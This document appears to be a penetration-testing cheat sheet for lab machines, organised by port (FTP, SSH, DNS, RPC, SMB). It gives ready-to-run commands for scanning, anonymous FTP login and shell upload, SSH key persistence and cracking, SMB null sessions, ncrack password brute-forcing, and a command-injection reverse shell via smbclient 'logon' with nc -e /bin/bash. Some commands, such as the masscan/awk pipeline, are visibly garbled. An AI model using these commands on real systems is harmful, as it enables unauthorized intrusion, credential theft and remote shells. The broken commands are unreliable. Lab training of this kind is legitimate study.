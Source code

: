 # Enumeration


## Port Scanning :



```bash
nmap -sC -sV -o nmap 1 -A -T5 10.10.10.x

# Host Discovery
nmap -sn 10.10.1.1-254 -vv -oA hosts
netdiscover -r 10.10.10.0/24

# DNS server discovery
nmap -p 53 10.10.10.1-254 -vv -oA dcs

# NSE Scripts Scan
* nmap -sV --script=vulscan/vulscan.nse

# Port specific NSE script list :
ls /usr/share/nmap/scripts/ssh*
ls /usr/share/nmap/scripts/smb*

# Scanning all 65535 ports :

masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.x -e tun0 > ports
ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | 
nmap -Pn -sV -sC -p$ports 10.10.10.x

# Running specific NSE scripts :
nmap -Pn -sC -sV --script=vuln*.nse -p$ports 10.10.10.x -T5 -A
```
sC - default scripts, sV - scan for versions, oA- output all formats. 

Optional - sT (performs full scan instead of syn-scan to prevent getting flagged by firewalls)
From Apache Version to finding Ubuntu version -> ubuntu httpd versions

## FTP : (Port 21)

anonymous login check
- ftp <ip address>
- username : anonymous
- pwd : anonymous
- file upload -> put shell.php


## SSH : (Port 22)



id_rsa.pub : Public key that can be used in authorized_keys for login

id_rsa : Private key that is used for login. Might ask for password. can be cracked with
ssh2john and john

- id_rsa
- ssh -i id_rsa user@10.10.10.x
- For passwordless login, add id_rsa.pub to target's authorized_keys
- ssh2john

# DNS Zone transfer check : (Port 53)


- If port 53 is open
- Add host to /etc/hosts
- dig axfr smasher.htb @10.10.10.135
- [https://ghostphisher.github.io/smasher2](https://ghostphisher.github.io/smasher2)
- Add the extracted domain to /etc/hosts and dig again


# RPC Bind (111)

 ```bash
rpcclient --user="" --command=enumprivs 1 -N 10.10.10.10
rpcinfo –p 10.10.10.10
rpcbind -p 10.10.10.10
```

# RPC (135)

```bash
rpcdump.py 10.11.1.121 -p 135
rpcdump.py 10.11.1.121 -p 135 | grep ncacn_2 np // get pipe names
rpcmap.py ncacn_ip_tcp:10.11.1.121[135]
```

# SMB (139 & 445)

[https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)

```bash
nmap --script smb-protocols 10.10.10.10
smbclient -L //10.10.10.10
smbclient -L //10.10.10.10 -N // No password (SMB Null session)
smbclient --no-pass -L 10.10.10.10
smbclient //10.10.10.10/share_name
smbmap -H 10.10.10.10
smbmap -H 10.10.10.10 -u '' -p ''
smbmap -H 10.10.10.10 -s share_name
crackmapexec smb 10.10.10.10 -u '' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p '' --shares
crackmapexec smb 10.10.10.10 -u 'sa' -p 'sa' --shares
crackmapexec smb 10.10.10.10 -u '' -p '' --share share_name
enum4linux -a 10.10.10.10
rpcclient -U "" 10.10.10.10
      * enumdomusers
      * enumdomgroups
      * queryuser [rid]
      * getdompwinfo
      * getusrdompwinfo [rid]
ncrack -u username -P rockyou.txt -T 5 10.10.10.10 -p smb -v
mount -t cifs "//10.1.1.1/share/" /mnt/wins
mount -t cifs "//10.1.1.1/share/" /mnt/wins -o vers=1.0,user=root,uid=0

# SMB Shell to Reverse Shell :

 smbclient -U "username%password" //192.168.0.116/sharename
 smb> logon “/=nc ‘attack box ip’ 4444 -e /bin/bash"

```

